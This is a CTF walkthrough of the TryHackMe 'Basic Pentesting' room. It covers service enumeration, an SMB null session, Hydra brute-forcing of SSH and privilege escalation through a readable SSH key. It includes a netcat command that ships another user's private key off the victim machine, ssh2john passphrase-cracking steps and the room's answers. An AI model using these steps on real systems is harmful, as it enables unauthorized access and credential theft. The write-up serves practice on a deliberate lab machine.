

---
title: "TryHackMe - Basic Pentesting Room Writeup"
author: Motasm Magdy
subject: "Try Hack Me CTF Writeup"
keywords: [THM, TryHackMe, CTF, Networking, Web Hacking, Password Cracking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "1c2538"
titlepage-rule-color: "c11111"
titlepage-logo: "./Screenshots/TryHackMe_logo.png"
logo-width: 250pt
toc: true
toc-own-page: true
...


**Challenge link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

**Challenge description:**

This challenge helps you apply basic enumeration and privilege escalation techniques to network protocols, as well as an easy web app hacking challenge.

**Challenge category:** Networking - Web Exploitation - Cryptography.

<br/>

# Task 1: Find the services exposed by the machine

To find the services exposed we need to enumerate the provided `Target_IP` using **Nmap**.


From the above output, we can find that ports **22**, **80**, **139**, **445** are open. These are the well-known ports for SSH, HTTP, and SMB services respectively.

<br/>

# Task 2: What is the name of the hidden directory on the web server(enter name without /)?

For this task we need to deal with the web server running on port **80**. But before enumerating the name of the hidden directory, let's open the web app using our browser.


Well! it looks like it's a simple web app with nothing useful but the page source code!

_**Keep in mind:** When dealing with web apps it's so important to take a look at the page source code as it may reveal some secrets or anything helpful for us!_


Alright! It seems like the developer left a comment for us.


Taking the comment as a hint for us and also this statement **_"The hidden directory"_** in the task question, it appears that eunmerating the sub-directories of the web app may reveal something!

To enumerate sub-directories you can use tools like **dirbuster**, **dirb**, **gobuster**, or even **burpsuite** but for now we will use **gobuster**.


After running **gobuster** for a while, we found this sub-directory named _"/development"_.

From the above output, we figure out that the name of the **"hidden directory"** is `development`. And this concludes task 2.

## Enumerating the (/development) sub-directory

Well! Going back to our browser and accessing the _/development_ sub-directory we found the following:


It appears that our generous developer again unintentionally left two text files.

Using wget to download the text files to our machine.

```console
$ wget http://10.10.179.189/development/dev.txt
$ wget http://10.10.179.189/development/j.txt
```
After downloading the files, we opened them to check out if there is anything interesting.


Well, it seems that it's a conversation between the developers namely (**-K**) and (**-J**) which may be the initials of their names or something like that. Developer **-K** mentioned a REST version and revealed a version number _`2.5.12`_, so it looks like he is talking about a REST API, but as he said: _"haven't made any real web apps yet"_ it looks like that further enumeration for the web app may not be helpful for us.

Anyway, his message _"SMB has been configured"_ may be a good hint for us to use as our next move, as also we know that from the Nmap results there is an SMB service running and exposed by the machine. 

Okay! Keep this in mind for now and let's take a look at the other text file.


Uh-oh! My generous dumb so-called _developer_!

Thanks a lot, he gave us all we need, the message revealed that the developer called (J) **has weak credentials which are susceptible to password cracking attacks!**

<br/>

# Task 3: User brute-forcing to find the username & password

To brute force the weak password of the **"-J"** developer, we need to find out his/her real name not just the first initial.

As I told you before, _keep in mind that enumrating the SMB service is our next move. It's time to do so._

## Enumerating the SMB service

To enumerate SMB in linux we have plenty of choices like **enum4linux**, **nmblookup**, **nmap**, or **smbclient** but for now we will use **smbclient**.


The above figure shows that our SMB Null Session attack is successfully achieved.

> SMB Null Session attack: is an attack that allows a malicious user to establish a connection to SMB shares without providing any username or password.

From the above result, we can see that there is a share called `Anonymous`. So let's access it using **smbclient** also.


Well done! We accessed it successfully and listed its content using `ls` command. We can see that there is a text file named **"staff.txt"** so let's download it for further investigation. Using `get staff.txt` to download the file to our local machine.

let's open it to see its content.


Man! Wonderful, now we have the full names of our generous developers. **(-J) is Jan and (-K) is Kay!**

<br/>

# Task 4: What is the username?

From the above results, the username is `jan`.

<br/>

# Task 5: What is the password?

Here we go, we know that Jan's password is susceptible to password-cracking attacks. So it's time to conduct our password-cracking attack. To do so, we are gonna use the well-known **Hydra** tool. But wait! Which protocol or service are we gonna conduct the attack to?!

As we have an SSH port open on our victim machine, it's logical to think about it to conduct our attack. So let's open **Hydra** and run it.



So the password is **`armando`**.

<br/>

# Task 6: What service do you use to access the server?

We used **`SSH`** to access the server.

<br/>

# Task 7: Enumerate the machine to find any vectors for privilege escalation

So let's access the victim machine using Jan's credentials.


For now, our task is to escalate our privileges on the machine which is part of the post-exploitation phase in any penetration test and it's not less important than accessing the machine itself.

To escalate our privileges, we can look for well-known privilege escalation techniques and apply them manaully or using automated tools like **LinEnum**, **LinuxPrivChecker**, or any other tool. For now, we are gonna do it manually.

After trying many privilege escalation techniques like checking the SUID binaries, SUDOers, kernel-based vulnerabilities, crontabs, and others, when trying to access the other user's directory `/home/kay` we found that we can access his `.ssh` directory!


Interesting! We can also read his own RSA public and private key pairs. So we found out our vector for privilege escalation.

<br/>

# Task 8: What is the name of the other user you found (all lower case)?

`kay`.

<br/>

# Task 9: If you have found another user, what can you do with this information?

Okay guys! We are about to finish this privilege escalation task, we now have SSH credentials and keys for another user, so what should we do with this SSH stuff? As we all know the famous quote **_"Google is your friend"_**, and to be honest as a pentester, Google is more than your friend. Therefore, after searching for a technique on how we could benefit from those SSH keys, we found a good blog post, and its steps are as follows:

**1. Get the private key on your local machine**

To do so, we are gonna use `netcat` and set a listener on our local machine and connect back from the victim machine to send the file.

_Set the netcat listener on our machine:_

```console
$ nc -nlp 4040 > id_rsa
```

_Connect back from the victim machine:_

```console
jan@basic2:/home/kay/.ssh$ nc [Local_Machine_IP] 4040 < id_rsa
```
</br>

After getting the id_rsa private key of user kay when we try to connect to the victim machine as user kay, we see that the private key is protected with a passphrase. So to use it, we first need to crack its passphrase.

**2. Install SSH2John on the local machine**

> SSH2John is a utility to convert the key-file into a txt-format that would be suitable for JTR to crack and it's part of John The Ripper suite.

```console
$ wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
```

**3. Crack the private key on the local machine**

So now we are gonna use **SSH2John** to get the suitable format for JTR to understand. After that, we are gonna run John The Ripper to crack the passphrase.

```console
$ python ssh2john.py id_rsa > id_rsa.hash
```


Well done! We now can use the id_rsa file with its passphrase to access the machine as user kay.


<br/>

# Task 10: What is the final password you obtain?

This task is trivial as we just listed the files in the home directory and find a `pass.bak` file contains the password.


</br>

# Conclusion

In conclusion, I hope this walkthrough has been informative and shed light on our thought processes, strategies, and the techniques used to tackle each task. CTFs are not just about competition; they're about learning, challenging yourself and your knowledge, and getting hands-on experience through applying your theoretical knowledge.

</br>

# References

1. [https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/)